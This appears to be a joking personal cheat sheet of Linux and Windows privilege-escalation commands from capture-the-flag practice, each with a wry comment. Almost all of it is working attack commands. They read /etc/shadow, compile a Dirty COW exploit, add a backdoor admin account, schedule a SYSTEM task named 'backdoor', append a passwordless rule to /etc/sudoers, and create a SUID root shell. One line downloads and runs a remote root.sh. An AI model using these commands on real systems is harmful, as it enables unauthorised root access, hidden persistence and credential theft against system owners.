
# tried this, didn't get root, but found temp dir with juicy perms 
find / -perm -u=s -type f 2>/dev/null

# looked promising, but just opened a text file?
/usr/bin/less /etc/shadow

# windows service unquoted path maybe? need to test with space in path
wmic service get name,pathname | findstr /i "Program Files"

# old kernel exploit maybe? saved this for later…
gcc -pthread dirty.c -o dirty && ./dirty

# wrote this after watching ippsec and forgot what it does 
awk 'BEGIN {while (1) print "A"}' | ./vuln

# added user and forgot to clean it — might be still active lol
net user tempadmin Password123! /add

# used winPEAS and got 300 lines of green text, panicked, grabbed the first thing with “AlwaysInstallElevated”

# tried this during a THM room, gave SYSTEM but only on that weird server version
schtasks /create /tn backdoor /tr "cmd.exe /c whoami > C:\output.txt" /sc minute /ru SYSTEM

# lol this binary had SUID bit — chmod 777'd the whole folder to make it look normal 
chmod 777 /home/user/scripts

# lolcat was installed on the target — privilege escalation or rainbow escalation?
lolcat /etc/passwd

# echo’d myself into sudoers… yeah that was dumb
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

# powershell trick that worked once and never again
powershell -Command "Start-Process cmd -Verb runAs"

# tried to escape restricted shell and ended up in Vim hell
vim
:set shell=/bin/bash
:shell

# this actually worked and I'm still confused why
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p

# almost nuked the server trying this — don't use in prod?
wget http://10.10.10.5/root.sh && chmod +x root.sh && ./root.sh

# printed PATH to see if I could hijack a command — forgot I was already root
echo $PATH
